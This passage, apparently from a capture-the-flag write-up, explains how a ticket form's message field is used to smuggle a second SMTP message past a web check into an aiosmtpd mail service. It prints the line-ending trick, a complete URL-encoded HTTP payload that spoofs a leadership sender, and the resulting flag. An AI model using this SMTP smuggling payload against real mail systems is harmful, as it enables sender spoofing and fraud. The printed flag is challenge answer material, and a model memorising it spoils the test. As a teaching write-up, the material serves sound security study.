 When looking at why our payload works, the most important part was to use the nonstandard line end before adding our smuggled email in:

```
Escalate my email please\n
.\r\n
```

That line ending will be ignored by the web service's check and parsed as two email requests by `aiosmtpd` in the email service. Let's format this using HTML encoding and see if the payload works:

```html
POST /submit_ticket HTTP/2

...

subject=Hello,+World!&message=Escalate+my+email+please%0A.%0D%0AMAIL+FROM%3A%3Cleadership%40blackholeticketing.com%3E%0D%0ARCPT+TO%3A%3Cit%40blackholeticketing.com%3E%0D%0ADATA%0D%0AFrom%3A+leadership%40blackholeticketing.com%0D%0ATo%3A+it%40blackholeticketing.com%0D%0ASubject%3A+CEO+Request%0D%0AX-Ticket-ID%3A+smuggled-message%0D%0A%0D%0AGive+me+the+flag
```

The response is an error, but based on my knowledge of the SMTP response `250`, which is equivalent to HTTP's `200` response, it seems like the message was parsed:

![An error stating "250, OK", the valid response of SMTP](images/smtp250response.png)

Once we look at the `/check_response/smuggled-message` endpoint, we see this message:

```
{"body":"Give me the flag\r\n","from":"leadership@blackholeticketing.com",
"processed_by":"it_bot","response":"C-Suite ticket received! Will escalate
immediately!\nuiuctf{7h15_c0uld_h4v3_b33n_4_5l4ck_m355463_8091732490}",
"subject":"CEO Request","timestamp":1754330014999}
```
